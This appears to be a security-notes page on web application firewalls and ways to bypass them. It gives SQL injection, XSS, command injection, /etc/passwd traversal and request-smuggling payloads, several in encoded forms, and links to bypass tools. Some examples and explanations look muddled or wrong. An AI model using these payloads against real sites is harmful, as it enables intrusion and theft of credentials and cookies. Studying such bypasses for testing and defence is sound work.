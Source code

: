 ## **WAF(Web Application Firewall):-** 
**Description:**
> A WAF inspects incoming web traffic to detect and filter out potentially malicious requests or payloads. It analyzes both the request (input) and response (output) of web applications.
>
>It is a security solution designed to protect web applications from various attacks, such as cross-site scripting (XSS), SQL injection, cross-site request forgery (CSRF), and other vulnerabilities that can be exploited over HTTP and HTTPS protocols.


**Deployment Options:**

>**Cloud-based:** WAF Provided as a service by cloud providers to protect web applications hosted in the cloud.
>
>**Network based WAF:** Deployed on-premises within an organization's network infrastructure to protect web applications hosted internally.
>
>**Host-based WAF:** Installed on individual web servers or application servers to protect specific applications or services.

**Benefits of Using a WAF:**

>**Enhanced Security:** Protects web applications from a wide range of attacks and vulnerabilities.
>
>**Regulatory Compliance:** Helps organizations comply with security and privacy regulations that require protection of web applications.
>
>**Reduced Risk of Data Breaches:** Mitigates the risk of data breaches and unauthorized access to sensitive information.

### **Here are some WAF Bypass Techniques:**

#### **1. Input Manipulation Techniques**

- **Obfuscation:** Obfuscation involves encoding or altering payloads to evade detection by signature-based filters.

  **Payload Example:** SQL Injection using URL encoding
    ```
    Original: ' OR 1=1 --
    Encoded: %27%20OR%201%3D1%20--
**Explanation:** The single quote (') is URL encoded as %27, space as %20, and equals (=) as %3D. This obfuscated payload might evade simple WAF filters looking for exact SQL injection patterns.

- **Concatenation:** Concatenation involves breaking up payloads or injecting additional characters to bypass filters.

     **Payload Example:** Command Injection using parameter splitting
     ```
     Original: ; ls /
    Split: ;%0als%20/
>**Explanation:** This technique injects a newline character (%0a) and space (%20) to split the command ls /, which might evade filters looking for specific command injection patterns.

- **Case Sensitivity:** Case sensitivity involves using mixed cases or alternative spellings to bypass case-sensitive filters.

     **Payload Example:** SQL Injection with lowercase
    ``` 
    Original: UNION SELECT username, password FROM users --
    Alternative: unION seLEct username, password from users --

> **Explanation:** By using different case combinations (UNION, unION, seLEct, from), this payload attempts to bypass filters that are case-sensitive.

- **Hexadecimal or Unicode Encoding:** Hexadecimal or Unicode encoding represents characters in different formats to evade character-based filters.

    **Payload Example:** Directory traversal using double URL encoding
    ```
    Original: /etc/passwd
    Double encoded: %252f%252e%252e%252f%252e%252e%252fetc%252fpasswd

> **Explanation:** Characters like / (%2f) and . (%2e) are double URL encoded to %252f and %252e, which might bypass filters expecting single URL encoding.

#### **2. HTTP Protocol Violations**
- **Overlong UTF-8 Encoding:-** Overlong UTF-8 encoding uses excessively long sequences to bypass filters expecting standard UTF-8 encoding.

    **Payload Example:** SQL Injection with overlong UTF-8 encoding
    ```
    Original: ' OR 1=1 --
    Encoded with overlong UTF-8: %C0%27%20OR%201%3D1%20--
    ```
> **Explanation:** The %C0%27 sequence represents an overlong UTF-8 encoding of ', which might evade filters that check for standard UTF-8 sequences.

- **Overlong URL Encoding:-** Overlong URL encoding involves encoding characters multiple times to bypass URL decoding filters.

    **Payload Example:** XSS payload with overlong URL encoding
    ```
    Original: <script>alert(1)</script>
    Double encoded: %253C%252Fscr%2525%32Ft%253E%253Cscript%253Ealert%25281%2529%253C%252Fscript%253E
 
- **Double Encoding:-** Double encoding involves encoding special characters twice to bypass filters expecting single encoding.

    **Payload Example:-** SQL Injection with double URL encoding
    ```
    Original: .php?id=1
    Double encoded: .php%253fid%253d1
 
 > **Explanation:** Characters like . (%2e) and ? (%3f) are double URL encoded (%252e, %253f), which might bypass filters expecting single URL encoding.

### Request Smuggling 
- **Content-Length Discrepancy:-** Content-Length discrepancy exploits inconsistencies in Content-Length headers to confuse WAFs.

**Payload Example:** Exploiting Content-Length header discrepancy
```
POST /login HTTP/1.1
Host: example.com
Content-Length: 10

username=admin&password=pass
```
> **Explanation:** The Content-Length header claims 10 bytes, but the actual payload is longer (username=admin&password=pass), which might confuse WAFs relying on Content-Length for request validation.

- **Chunked Transfer Encoding:-** Chunked Transfer Encoding manipulates chunked encoding to evade WAF filters.

    **Payload Example:** Manipulating chunked encoding
    ```
    POST /upload HTTP/1.1
    Host: example.com
    Transfer-Encoding: chunked

    4
    data
    0
    ```
> **Explanation: T**he payload uses chunked encoding with an ambiguous boundary (0 after data), which might bypass filters expecting a specific chunked encoding structure.

#### Bypassing JavaScript Filters 
- **Event Handler Manipulation:-** Event handler manipulation bypasses filters blocking specific JavaScript event handlers.

**Payload Example:** Bypassing onmouseover filter
```
Original: <img src="x" onmouseover=alert(1)>
Modified: <img src="x" onmoUSeover=alert(1)>
```
> **Explanation:-** The onmouseover event handler is modified with mixed cases (onmoUSeover) to evade filters expecting exact event handler names.

- **DOM-based XSS:-** DOM-based XSS uses client-side techniques to bypass server-side WAF rules.

    **Payload Example:** Exploiting DOM-based XSS
    ```
    Original: <script>alert(document.cookie)</script>
    Modified: <img src="notexist" onerror="document.write('<script>alert(document.cookie)</scr'+'ipt>');">

> **Explanation:** The payload injects JavaScript through onerror attribute, using string concatenation (+'ipt>') to evade WAF filters expecting direct script tags.

### **Some Useful Tools:-** 

- **[WhatWaf](https://github.com/Ekultek/WhatWaf):-** WhatWaf can attempt to discover a bypass by utilizing tamper scripts and assessing the web server’s response to the various payloads.
- **[nowafpls](https://github.com/assetnote/nowafpls):-** Burp plugin to add junk data to requests to bypass WAFs by length
- **[w3af](https://github.com/andresriancho/w3af):-** Web Application Attack and Audit Framework
- **[wafw00f](https://github.com/EnableSecurity/wafw00f):-** Identify and fingerprint Web Application Firewall
- **[BypassWAF](https://github.com/vincentcox/bypass-firewalls-by-DNS-history):-** Bypass firewalls by abusing DNS history. This tool will search for old DNS A records and check if the server replies for that domain.
- **[CloudFail](https://github.com/m0rtem/CloudFail):-** It is a tactical reconnaissance tool that tries to find the original IP address behind the Cloudflare WAF.


### **References**

- https://github.com/0xInfection/Awesome-WAF

- https://github.com/kh4sh3i/WAF-Bypass

- https://www.yeswehack.com/learn-bug-bounty/web-application-firewall-bypass

- https://medium.com/@allypetitt/5-ways-i-bypassed-your-web-application-firewall-waf-43852a43a1c2

- https://hacken.io/discover/how-to-bypass-waf-hackenproof-cheat-sheet/

- https://book.hacktricks.xyz/v/fr/network-services-pentesting/pentesting-web/waf-bypass
- https://github.com/kh4sh3i/WAF-Bypass?tab=readme-ov-file


















